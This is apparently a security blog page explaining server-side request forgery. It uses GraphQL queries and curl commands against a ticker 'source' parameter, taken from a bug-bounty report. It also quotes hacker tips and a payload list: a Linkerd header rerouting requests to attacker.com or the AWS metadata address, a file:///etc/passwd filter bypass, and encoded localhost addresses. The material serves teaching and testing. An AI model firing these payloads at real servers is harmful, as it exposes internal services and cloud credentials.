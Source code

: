 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
cover: ../../.gitbook/assets/Blue Pink Gradient Fashion Banner (2) (1).png
coverY: -14
layout: landing
---
```


# 🤯 Understanding SSRF Vulnerabilities and Their Impact

## &#x20;:heavy\_multiplication\_x: [<mark style="color:red;">Twitter</mark>](https://twitter.com/Cipher0ps\_tech?t=MlqumIay8I49eWwhjgrotg\&s=09) :link: [<mark style="color:red;">Linkedin</mark>](https://www.linkedin.com/company/cipherops/) :tv: [<mark style="color:red;">Telegram</mark>](https://t.me/cipherops\_tech) :tada: <mark style="color:red;">I</mark>[<mark style="color:red;">nstagram</mark>](https://instagram.com/cipherops\_tech?igshid=MzNlNGNkZWQ4Mg==)



Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

```markdown
# A tip onn ssrf from Twitter
#bugbountytip Found Linkerd service (look for headers such as “Via: linkerd” or “l5d-*”)? Try SSRF by overriding dtab via request header, e.g. “l5d-dtab: /svc/* => /$/inet/attacker.com/80” to reach your server or “l5d-dtab: /svc/* => /$/inet/169.254.169.254/80” for AWS metadata.

#Bugbountytip Got a SSRF? no metadata endpoints to hit? Try https://kubernetes.default.svc/metrics if you get a load crap come back jackpot you've hit the kubernetes API and this should indicate it's shit the bed time for any security team. (url can change)

SSRF are ❤️

file:///etc/passwd : Not authorized
file://\/\/etc/passwd : Work 😀

#BugBounty

SSRF payloads
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ 
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ http://192.168.0.1
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
HTTP
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
#kongsec

If you have a blind SSRF that can only read images (but for some reason can't read ICO files), try and find Confluence running on the internal network and request /images/icons/linkext7.gif to prove that you can access internal resources

```

{% embed url="https://x.com/chybeta/status/1176165964196376576?s=20" %}

<img src="https://2207729183-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LbWrDBBrbM1WtGeIKRO%2F-MTAEQ3wRjUmCfcVCv3d%2F-MTAErI78RbCVBhg8jGj%2Fimage.png?alt=media&#x26;token=f90e59f3-c38b-48ea-b8b3-e7f1484bff66" alt="" data-size="original">



In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
